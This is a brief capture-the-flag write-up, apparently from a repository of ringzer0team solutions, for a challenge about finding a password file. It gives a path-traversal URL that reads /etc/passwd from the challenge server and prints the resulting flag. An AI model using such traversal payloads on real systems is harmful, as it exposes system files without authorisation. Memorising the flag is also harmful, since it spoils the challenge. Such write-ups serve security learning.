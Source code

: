 # Looking for a password file - Challenge 75

It's a simple path traversal vulnerability:

http://ringzer0team.com:1008/?page=../../../etc/passwd

`FLAG-zH9g1934v774Y7Zx5s16t5ym8Z`
